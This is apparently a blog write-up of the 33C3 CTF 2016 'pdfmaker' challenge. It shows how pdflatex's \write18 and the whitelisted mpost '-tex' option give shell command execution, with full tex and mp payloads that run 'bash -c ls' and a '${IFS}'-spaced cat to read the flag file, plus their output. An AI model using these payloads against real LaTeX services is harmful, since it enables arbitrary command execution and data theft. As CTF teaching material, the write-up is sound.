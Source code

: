 ```yaml
---
layout: post
title: "33C3 CTF 2016: pdfmaker write-up"
date: 2017-02-20 02:21:38 +0000
categories:
    - CTF
description: "Write-up of 33C3 CTF 2016: pdfmaker."
keywords: 33c3, 33c3 ctf, pdflatex, tex, write-up
redirect_from: /p/20170220/
---
```


## pdfmaker (misc 75)

> Just a tiny
> [application](https://archive.aachen.ccc.de/33c3ctf.ccc.ac/uploads/pdfmaker-023c4ad945cb421a8bec1013bddf2bab5f77f77a.tar.xz),
> that lets the user write some files and compile them with pdflatex. What can
> possibly go wrong?
>
> `nc 78.46.224.91 24242`

If you can't download the application, please use this
[link](/downloads/2017/02/20/pdfmaker-023c4ad945cb421a8bec1013bddf2bab5f77f77a.tar.xz).

## What is the goal?

There are some interesting parts in `pdfmaker_public.py`. `initConnection`
copies `flag` file into the `self.directory` with the name of:

``` python
"33C3" + "%X" % randint(0, 2**31) + "%X" % randint(0, 2**31)
```

Since the answer would be in the `33C3XXXXXXXXXXXXXXXX` file, we should get the
list of filenames in its directory. Note that `create` method can create log,
tex, sty, mp, bib files.

## Behavior of `\write18`

[@daehee](http://gsis.kaist.ac.kr/cysec/daeheejang.html) found this helpful
link:
["Pwning coworkers thanks to LaTeX"](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/).
According to the post, `\write18` normally executes any program listed in
`shell_escape_commands`:

``` conf
shell_escape_commands = \
bibtex,bibtex8,\
extractbb,\
kpsewhich,\
makeindex,\
mpost,\
repstopdf,\
```

Note that `mpost` is in there, and we can create mp file! As denoted by the
link, `mpost` takes the `-tex` option for text labels, so we can execute
arbitrary program.

<!-- more -->

## Exploitation

I'll explain the exploitation step by step.

At first, we create a tex file that executes `mpost` on compilation. Note that
we specified `bash -c ls>c.log` to the `-tex` option.

```
> create tex x
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c ls>c.log" "x.mp"}
\end{document}
\q
```

Now we create a mp file.

```
> create mp x
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
\q
```

Then compile the previous tex file to invoke the `ls` command.

```
> compile x
```

Then we get the list of filename in the directory.

```
> show log c
33C3566BA1153C636C68
c.log
makempx.log
mpxxZmwh.tex
x.aux
x.log
x.mp
x.tex
```

We have to read the content of `33C3566BA1153C636C68` file, so let's create one
more tex file. `bash -c (cat${IFS}33C3566BA1153C636C68)>d.log` will be executed
on compilation.

```
> create tex y
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}33C3566BA1153C636C68)>d.log" "x.mp"}
\end{document}
\q
```

Then compile it.

```
> compile y
```

So we can read the log.

```
> show log d
33C3_pdflatex_1s_t0t4lly_s3cur3!
```

So the flag is `33C3_pdflatex_1s_t0t4lly_s3cur3!`.
